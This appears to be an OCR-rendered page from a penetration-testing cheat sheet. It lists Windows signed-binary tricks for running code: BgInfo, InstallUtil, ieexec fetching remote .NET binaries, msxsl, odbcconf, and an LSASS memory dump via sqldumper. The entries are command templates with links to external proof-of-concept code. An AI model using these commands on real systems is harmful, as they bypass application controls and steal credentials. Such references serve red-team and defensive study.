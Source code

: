 <span id="anchor-335"></span>Run Commands with BgInfo.exe

Create a custom \*.bgi file that will execute your custom VBS commands.
Similar to what is described here: 

  - [*https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/*](https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/)
    
  - [*https://msitpros.com/?p=3831*](https://msitpros.com/?p=3831) 

|                                                          |
| -------------------------------------------------------- |
| bginfo.exe **\<custom\_bgi\_file\>** /popup /nolicprompt |

<span id="anchor-336"></span>Run Commands with Custom DLLs

Example located here:
[*https://gist.github.com/xenoscr/db37c65f7ffcc3b847c5aa81d7f42290*](https://gist.github.com/xenoscr/db37c65f7ffcc3b847c5aa81d7f42290)

|                                                                      |
| -------------------------------------------------------------------- |
| InstallUtil.exe /logfile= /LogToConsole=false /U **\<custom\_dll\>** |

<span id="anchor-337"></span>Run Remote .NET Code with IEEXEC.EXE

|                                            |
| ------------------------------------------ |
| ieexec.exe **\<url\_to\_DotNet\_binary\>** |

<span id="anchor-338"></span>Run Commands with msxsl.exe

Create XML files to execute JScript. A write up is located here:

|                                    |
| ---------------------------------- |
| msxsl.exe customers.xml script.xsl |

<span id="anchor-339"></span>Run Commands with odbcconf.exe

Build a C\# project that will be built as a DLL then registered and run
with odbcconf.exe:
[*https://gist.github.com/xenoscr/b91638bc6c5c3318adac7488f257b7ce*](https://gist.github.com/xenoscr/b91638bc6c5c3318adac7488f257b7ce)

|                        |
| ---------------------- |
| odbcconf.exe /f my.rsp |

<span id="anchor-340"></span>Dump LSASS Process Memory with
sqldumper.exe

|                                              |
| -------------------------------------------- |
| sqldumper.exe **\<lsass\_pid\>** 0 0x0110:40 |
